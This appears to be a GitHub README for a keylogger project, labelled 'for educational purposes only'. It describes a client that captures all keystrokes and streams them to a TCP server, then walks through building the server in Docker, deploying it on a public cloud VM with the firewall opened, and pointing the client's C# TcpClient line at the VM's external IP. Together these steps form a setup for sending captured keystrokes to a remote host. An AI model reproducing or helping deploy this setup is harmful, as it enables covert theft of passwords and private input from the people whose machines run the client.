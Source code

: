 > [!WARNING]
> For educational purposes only!

---

# Key Logger

This project includes a key logger client which logs all key strokes and a TCP server which accepts the incoming key stroke stream and writes it to a file.

---

# Setup

Here’s how to run the TCP server **locally** or inside a **Docker container** and deploy it to a cloud VM.

---

## Build and Test the Docker Image Locally

1. **Build the Server Project**:

   - Open a terminal in the server project directory and build the project:
     ```bash
     dotnet build
     ```

2. **Build the Docker Image**:

   - Create a Docker image:
     ```bash
     docker build -t keylogger-server .
     ```

3. **Run the Docker Container**:

   - Run the container and map the port `5000` from the container to `5001` on the the local machine:
     ```bash
     docker run -p 5001:5000 keylogger-server
     ```

4. **Test Locally**:
   - The server should now be running at `127.0.0.1:5001`.
   - You can test this by using `nc` (NetCat) or `telnet` in the terminal like `echo "Your Message" | nc -v 127.0.0.1 5001`. Inspect the server log to verify.
   - Run the **keylogger client** and confirm it can connect to the server.

---

## Deploy to a Cloud VM

To deploy the server to a cloud-hosted VM:

1. **Provision a VM**:

   - Create a virtual machine using a cloud provider (AWS EC2, Azure VM, GCP Compute Engine).
   - Choose a VM image with **Docker installed** (e.g., Ubuntu with Docker pre-installed).

2. **Transfer the Docker Image**:

   - Log in to Docker Hub:
     ```bash
     docker login
     ```
   - Tag your image:
     ```bash
     docker tag keylogger-server <your-dockerhub-username>/keylogger-server:latest
     ```
   - Push the image:
     ```bash
     docker push <your-dockerhub-username>/keylogger-server:latest
     ```
   - On the VM, pull the image:
     ```bash
     docker pull <your-dockerhub-username>/keylogger-server:latest
     ```

3. **Run the Server Container on the VM**:

   - Start the server container and map port `5000`:
     ```bash
     docker run -p 5000:5000 keylogger-server
     ```

4. **Open the VM’s Firewall**:

   - Allow inbound traffic on **port 5000** in the cloud provider’s firewall settings so the client can connect.

5. **Find the External IP**:
   - Check the external (public) IP address of your VM.

---

## Update the Keylogger Client to Use the External IP

In the **keylogger client** project, replace `127.0.0.1` with the VM's external IP address:

```csharp
using TcpClient client = new TcpClient("123.456.78.90", 5000); // Replace with your VM's external IP
```

---

## Test the Entire Setup

1. Ensure the TCP server container is running on the cloud VM.
2. Run the keylogger client on your **local machine**.
3. Confirm the client connects to the server and sends the key data.
4. Check the server’s output (or the log file) on the VM.
